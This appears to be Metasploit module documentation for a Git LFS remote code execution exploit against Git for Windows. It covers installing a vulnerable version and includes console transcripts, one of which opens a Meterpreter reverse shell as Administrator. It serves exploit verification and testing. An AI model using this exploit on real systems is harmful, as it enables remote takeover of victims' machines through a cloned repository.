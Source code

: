 ## Vulnerable Application

Git in versions <= 2.29.2 includes git-lfs extension which allows remote
attackers to execute arbitrary code on the victim's Windows system upon a
clone operation.

### Vulnerable Installation

1. Download a vulnerable version of Git for Windows: [v2.28.0](https://github.com/git-for-windows/git/releases/download/v2.28.0.windows.1/Git-2.28.0-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. You should now be able to run the exploit and get a session on Windows

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_rce`
4. Do: `run`
5. Ensure the exploit sets up a repository to be cloned, ex: `http://192.168.123.1:8080/fixflex.git`
6. From the victim machine, clone the repository created by the exploit.
7. You should get a shell.

## Scenarios
### Git `v2.28.0` on Windows 10 (2004)
```
msf6 > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/git_lfs_rce) > set LHOST 172.16.199.1
LHOST => 172.16.199.1
msf6 exploit(windows/http/git_lfs_rce) > set RHOSTS 172.16.199.151
RHOSTS => 172.16.199.151
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.199.1:4444 
msf6 exploit(windows/http/git_lfs_rce) > 
[*] Using URL: http://0.0.0.0:8080/4C11tyW2NVX
[*] Local IP: http://192.168.2.114:8080/4C11tyW2NVX
[*] Server started.
[*] Git repository to clone: http://172.16.199.1:8080/cookley.git
[*] Sending payload data...
[*] Sending LFS object...
[*] Sending stage (200262 bytes) to 172.16.199.151
[+] Deleted .gitattributes
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.151:50018) at 2021-09-07 12:05:55 -0400
msf6 exploit(windows/http/git_lfs_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-13BFU78\Administrator
meterpreter > sysinfo
Computer        : DESKTOP-13BFU78
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Git `v2.32.0` on Windows 10 20H2
```
msf6 > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/git_lfs_rce) > set LHOST 192.168.123.1
LHOST => 192.168.123.1
msf6 exploit(windows/http/git_lfs_rce) > set RHOSTS 192.168.123.150
RHOSTS => 172.16.199.151
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
msf6 exploit(windows/http/git_lfs_rce) > [*] Using URL: http://0.0.0.0:8080/15VCXHvHTOq5O
[*] Local IP: http://192.168.2.114:8080/15VCXHvHTOq5O
[*] Server started.
[*] Git repository to clone: http://192.168.123.1:8080/fixflex.git
[-] Exception handling request: The git client needs to be running on windows with a version less than 2.29.2. The client found was running on: Windows and was version: 2.32.0
```